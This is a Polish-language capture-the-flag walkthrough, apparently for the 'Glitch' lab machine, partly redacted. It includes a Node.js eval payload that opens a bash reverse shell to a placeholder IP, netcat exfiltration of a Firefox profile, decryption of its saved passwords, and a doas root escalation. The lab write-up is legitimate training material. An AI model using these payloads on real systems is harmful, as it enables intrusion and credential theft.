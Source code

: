 1) Poczekaj okolo 5 min, az `blad 502` zniknie i strona sie zaladuje.

2) Otworz `narzedzia developerskie` i otworz `tag script`.

3) Z ponizszego kodu:

```

      function getAccess() {
        fetch('/api/ac**ss')        <---------------------
          .then((response) => response.json())
          .then((response) => {
            console.log(response);
          });
      }
    
```

Wyciagamy endpoint do pierwszego api. 

4) Doklejamy do linku `/api/ac**ss` i ukazuje nam sie zakodowany `token`:

```dGhpc****3RfcmVhbA==```

5) Mozna od razu zauwazyc ze ciag wyglada znajomo jest to `base64`.

Wchodzimy na np. te strone: [base64_decode](base64decode.org/)

Wpisujemy nasz `zakodowany token` i dostajemy `odkodowany`:

```this_is_*_**```

6) Wracamy na `glowna strone` wchodzimy w `narzedzia developerskie`.

Wchodzimy w zakladke `Cookies` i widzimy `token` ustawiony na wartosc `value` klikamy dwukrotnie na niego i zmieniamy wartosc na nasz `odkowany token`.

Po tym wszystkim `odswiezamy strone` (f5)

7) Ukazuje nam sie inna strona wchodzimy w zakladke `debugger`. 

Na lewym panelu rozwijamy zakladke `js` i klikamy w plik `script.js`

```
  const container = document.getElementById('items');
  await fetch('/api/**')                                <------------------------
    .then((response) => response.json())
    .then((response) => {
      response.sins.forEach((element) => {

```

Z powyzszego kodu widzimy kolejny endpoint do `nastepnego API`.

8) Dopisujemy go do naszego `linku` i przechwytujemy `request` przez np. w moim przykladu program `burp`.

9) Robimy `send to reapeater` i robimy `send`.

Jesli sie nie powiedzie `usun` z `requestu Header`:

```
    If-None-Match: W/"a9-0aR6bAfiK/DB+***"

```

I powinno juz wszystko dzialac. 

10) Sprawdzamy na jakie zapytania `pozwala` API. 

Zmieniamy `GET` na `OPTIONS`

```OPTIONS /api/i* HTTP/1.1```

11) Widzimy ze mozemy wykonac nastepujace rzeczy w tym endpoitcie:

```GET,HEAD,POST```

12) Sprawdzamy mozliwe parametry:

```wfuzz -c -z file,/usr/share/wordlists/common.txt -X POST --hh 45 -u http://<IP>/api/i*\?FUZZ\=test```

Widzimy funkcje `eval`, ktora powinna nam dac duzo do myslenia:

```
    ReferenceError: test is not defined
    at eval (eval at router.post (/var/web/routes/api.js:25:60
```

13) Interesuje nas `POST`. Szukamy w internecie `NodeJs RCE eval`. 

Ja skorzystalem z tej strony: [strona](https://blog.appsecco.com/nodejs-and-a-simple-rce-exploit-d79001837cc6)

Zauwazylem tam `exploit` ktory uzyje.

14) Zmieniamy w `burpie` parametr na `post` i dopisujemy `?cmd=` oraz doklejamy `exploit`:

```
    POST /api/i*?cmd=require('child_process').exec('bash+-c+"bash+-i+>%26+/dev/tcp/<IP>/<PORT>+0>%261"') HTTP/1.1
```

W terminalu wpisujemy `nc -lvpn <PORT>`

I klikamy `send`. Powinnismy uzyskac dostep do uzytkownika `user`.

15) Wchodzimy do katalogu `/home/user` i widzimy `pierwsza flage`.

16) Po przepisaniu flagi (`cat <plik>`) pokazujemy wszystkie pliki w folderze `ls -la`.

Moze nam sie rzucic w oczy ukryty katalog `.firefox`. Wchodzimy w niego `cd .firefox`.

Widzimy cos co wyglada jak katolog sesji `b5w4643p.default-release`.

17) Na nasza maszyne pobieramy: [Firefox_decrypt](https://github.com/unode/firefox_decrypt)

Pakujemy sesje z servera `tar -cf archive.tar ./b* `.

Za pomoca [netcata](https://nakkaya.com/2009/04/15/using-netcat-for-file-transfers/) wysylamy plik na nasz komputer.

Na naszym komputerze wpisujemy: `nc -l -p 1234 > ./archive.tar`.

A na serverze: `nc -w 3 <IP> 1234 < archive.tar`.

18) Potem za pomoca `firefox_decrypt` deszyfrujemy haslo do uzytkownika `v0id`:

```./firefox_decrypt.py ./(SCIEZKA DO KATALOGU)b5w4643p.default-release```


Po chwili ukazuje nam sie:

```

    Website:   https://glitch.thm
    Username: 'v0id'
    Password: 'love_*'


```

19) Przechodzimy na uzytkownika `v0id` za pomoca `su v0id`.

Jesli pokaze Ci sie: `su: must be run from a terminal `. Wpisz: `python3 -c 'import pty; pty.spawn("/bin/bash")'`. A potem ponownie probujemy.

20) Za pomoca polecenia `doas` zwiekszamy nasze uprawnienia do uzytkownika `root`.

```doas -u root /bin/bash```

21) Wchodzimy do katalogu `/root` i zdobywamy `ostatnia flage`.
